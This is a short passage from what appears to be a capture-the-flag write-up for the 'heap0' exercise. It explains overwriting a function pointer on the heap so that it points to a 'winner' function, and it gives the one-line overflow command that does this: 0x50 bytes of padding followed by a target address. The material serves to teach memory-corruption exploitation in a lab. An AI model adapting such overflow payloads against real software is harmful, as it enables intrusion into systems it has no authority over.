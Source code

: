 All we need to do is overwrite the value of ptr1 to the winner function to solve the challenge. <br>
WE will do this with a simple command: <br>
./heap0 `python2 -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'` <br>
Once we do that we pass the level. <br>
